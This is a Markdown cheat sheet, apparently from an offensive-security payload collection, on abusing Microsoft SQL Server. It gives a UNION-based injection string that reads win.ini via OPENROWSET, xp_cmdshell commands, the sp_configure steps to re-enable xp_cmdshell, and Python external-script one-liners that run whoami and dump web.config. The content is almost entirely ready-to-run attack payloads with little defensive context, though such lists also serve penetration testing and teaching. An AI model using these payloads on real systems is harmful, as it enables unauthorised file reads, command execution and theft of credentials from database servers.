 
## MSSQL File Manipulation

### MSSQL Read File

**Permissions**: The `BULK` option requires the `ADMINISTER BULK OPERATIONS` or the `ADMINISTER DATABASE BULK OPERATIONS` permission.


```sql
OPENROWSET(BULK 'C:\path\to\file', SINGLE_CLOB)
```

Example:

```sql
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```


### MSSQL Write File

```sql
execute spWriteStringToFile 'contents', 'C:\path\to\', 'file'
```


## MSSQL Command Execution

### XP_CMDSHELL

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

If you need to reactivate `xp_cmdshell` (disabled by default in SQL Server 2005)

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

### Python Script 

> Executed by a different user than the one using `xp_cmdshell` to execute commands

```powershell
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
```
